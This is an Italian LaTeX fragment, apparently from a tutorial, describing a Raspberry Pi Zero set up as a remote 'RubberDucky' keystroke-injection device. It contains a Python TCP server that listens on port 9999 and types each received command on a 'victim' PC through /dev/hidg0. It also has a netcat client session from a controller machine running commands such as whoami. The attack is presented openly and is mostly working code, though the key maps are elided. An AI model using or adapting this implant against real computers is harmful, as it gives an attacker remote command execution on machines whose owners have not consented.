 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{itemize}
    \item \textbf{PC Controller}: invia comandi da digitare tramite socket TCP
    \item \textbf{Pi Zero (RubberDucky)}: riceve i comandi e li esegue come tastiera
    \item \textbf{PC Vittima}: vede solo una tastiera che digita comandi
\end{itemize}

\subsection{Script Server sul Pi Zero}
\begin{lstlisting}[language=Python, caption=remote\_hid.py -- Server HID remoto sul Pi Zero]
#!/usr/bin/env python3
"""
Server HID remoto - gira sul Pi Zero
Riceve comandi via TCP e li digita tramite HID
"""
import socket
import struct
import time

# Stessa mappa del payload.py
CHAR_MAP = { ... }  # vedi payload.py
SHIFT_MAP = { ... }

def send_report(modifier, keycode):
    report  = struct.pack('8B', modifier, 0, keycode, 0, 0, 0, 0, 0)
    release = struct.pack('8B', 0, 0, 0, 0, 0, 0, 0, 0)
    with open('/dev/hidg0', 'rb+') as f:
        f.write(report)
        time.sleep(0.05)
        f.write(release)
        time.sleep(0.05)

def type_text(text):
    for ch in text:
        if ch in CHAR_MAP:
            send_report(0x00, CHAR_MAP[ch])
        elif ch in SHIFT_MAP:
            send_report(0x02, SHIFT_MAP[ch])
        time.sleep(0.04)
    send_report(0x00, 0x28)  # ENTER

# Avvia server TCP
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('0.0.0.0', 9999))
server.listen(1)
print("[*] In attesa di connessioni su :9999")

conn, addr = server.accept()
print(f"[+] Connesso da {addr}")

while True:
    try:
        cmd = conn.recv(1024).decode().strip()
        if not cmd or cmd == 'exit':
            break
        print(f"[>] Digito: {cmd}")
        type_text(cmd)
        conn.send(b"OK\n")
    except:
        break

conn.close()
\end{lstlisting}

\subsection{Client sul PC Controller}
\begin{lstlisting}[language=bash, caption=Connessione al Pi Zero dal Controller]
# Dal PC Controller, ci si connette al Pi Zero
# e si digitano comandi che verranno eseguiti sulla vittima
nc PI_ZERO_IP 9999

# Esempio di sessione interattiva:
# > echo "Ciao dalla vittima"
# OK
# > whoami
# OK
# > ipconfig getifaddr en0
# OK
\end{lstlisting}
\end{document}
